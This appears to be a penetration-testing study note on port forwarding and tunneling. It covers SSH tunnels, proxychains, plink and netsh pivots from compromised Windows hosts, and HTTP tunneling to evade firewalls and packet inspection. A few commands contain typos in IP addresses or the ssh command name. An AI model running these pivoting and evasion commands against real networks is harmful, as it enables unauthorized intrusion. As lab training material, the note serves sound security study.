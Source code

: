 # Port Redirection and Tunneling

## Port Forwarding

Test Internet connectivity:
```
ping google.com -c 1
nc -nvv 216.58.207.142 80
GET / HTTP/1.0
```

We can use rinetd to redirect traffic from a host with no Internet connectivity, via one that does.

```
sudo apt install rinetd
cat /etc/rinetd.conf
# Edit file to include the required details. connectaddress is the destination.
0.0.0.0   80    216.58.207.142    80
# All traffic received on all interfaces for port 80 will be redirected to 216.58.207.142.80.
sudo service rinetd restart
# Verify
ss -antp | grep "80"
# From target
nc -nvv <Kali Host>
GET / HTTP/1.0
```

## SSH Tunneling

Local port forwarding using SSH:

```bash
Bind our local address to the port we wish to forward over SSH tunnel with `0:0:0:0:445` and the server to forward too `191.168.1.110:445` and do this through the Linux target `student@192.168.208..44`
ssh -N -L [bind_address:]port:host:hostport [username@address]

# Edit /etc/samba/smb.conf
client min protocol SMB2
sudo ssh -N -L 0.0.0.0:445:172.16.208.5:445 student@192.168.208.44

# Only listening on a local address?
sudo ssh -N -L 80:localhost:80 student@192.168.208.52 -p 2222
```

Remote port forwarding using SSH:  
ssh to kali machine `kali@192.168.119.208` with `-N` for no commands, and `-R` for remote forward. Open a listener on kali machine `2221` and forward connections to the internal Linux TCP port `3306` with `128.0.0.1:3306`.

```bash
ssh -N -R [bind_address:]port:host:hostport [username@address]

ssh -N -R 192.168.119.208:2221:127.0.0.1:3306 kali@192.179.119.208

# Reverse bind from local to remote:
sh -N -R 192.168.208.52:5555:127.0.0.1:2221 student@192.168.208.52 -p 2222
```

Dynamic Port Forwarding using SSH:

```bash
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
# Use -D for dynamic SOCKS4 application-level port forwarding.

# Tunnel all incoming traffic through the SSH tunnel:
sudo ssh -N -D 127.0.0.1:8080 student@192.168.208.44

# Direct tooling through the tunnel:
vim /etc/proxychains.conf
# Add:
socks4  127.0.0.1 8080

# Run tools through proxychains by prepending each command with proxychains:
sudo proxychains nmap --top-ports=20 -sT -Pn 172.16.208.5
```

By default, ProxyChains will attempt to read its configuration file first from the current directory, then from the user's $(HOME)/.proxychains directory, and finally from /etc/proxychains.conf. This allows us to run tools through multiple dynamic tunnels, depending on our needs.

## Windows

plink.exe is a Windows command line SSH client.

We can use remote port forwarding `-R` and specify the user `-l` and password `-pw` to connect via `-ssh`. We can bind the remote Kali `192.168.119.234:1234` to the MySQL port of the Windows target `127.0.0.1:3306`. 

If we aren't operating interactively (ie. over a reverse shell), we can pipe answers to the prompt with cmd.exe /c echo y:
`cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4`

We can then access the MySQL port from our local Kali instance over the bound port:
`sudo nmap -sS -sV 127.0.0.1 -p 1234`

We can also use netsh if we have system privileges and want to pivot to another network. We can forward traffic from the compromised Windows machine onto the target machine.

Use the netsh `interface` context to add an IPv4-to-IPv4 `v4tov4` proxy `portproxy` listening on 192.168.148.10 `listenaddress=192.168.148.10`, port 4455 `listenport=4455` that will forward to the Windows 2016 Server `connectaddress=172.16.148.5` on port 445 `connectport=445`:  

`netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.148.10 connectport=445 connectaddress=172.16.148.5`  

We may need to add a firewall rule:  
`netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.148.10 localport=4455 action=allow`  

On Kali we may need to amend the SMB min protocol as before:
```bash
sudo vim /etc/samba/smb.conf

min protocol = SMB2

sudo systemctl restart smbd

smbclient -L 192.168.148.10 --port=4455 --user=Administrator
```

Errors may be seen due to the port forwarding, despite issues with listing we can still mount shares:

```bash
sudo mkdir /mnt/win10_share
sudo mount -t cifs -o port=4455 //192.168.148.10/Data -o username=Administrator,password=XXX /mnt/win10_share
ls -l /mnt/win10_share/
cat /mnt/win10_share/data.txt
```

## HTTP Tunneling

These techniques are used to avoid deep packet inspection which may prevent the previous SSH based techniques from working.

```bash
# Kali
sudo apt install httptunnel

# From our obtained reverse shell. Creat a local SSH tunnel to bind the local port 8888 to the RDP port on the Windows server to pivot too.
ssh -L 0.0.0.0:8888:172.16.148.5:3389 student@127.0.0.1
ss -antp | grep "8888"

# Set up HTTP Tunnel server to listen on port 1234 and decapsulate traffic and redirect it to port 8888 (which then uses the local SSH port forwarding to send to server).
hts --forward-port localhost:8888 1234
ps aux | grep hts
ss -antp | grep "1234"

# Create client on Kali machine to send traffic received on 8080 to the Linux pivot host, this is where we dodge the firewall.
htc --forward-port 8080 192.168.148.44:1234
ps aux | grep htc
ss -antp | grep "8080"

# Now we can RDP to desktop by calling our Kali host on port 8080.
rdesktop 127.0.0.1:8080
```
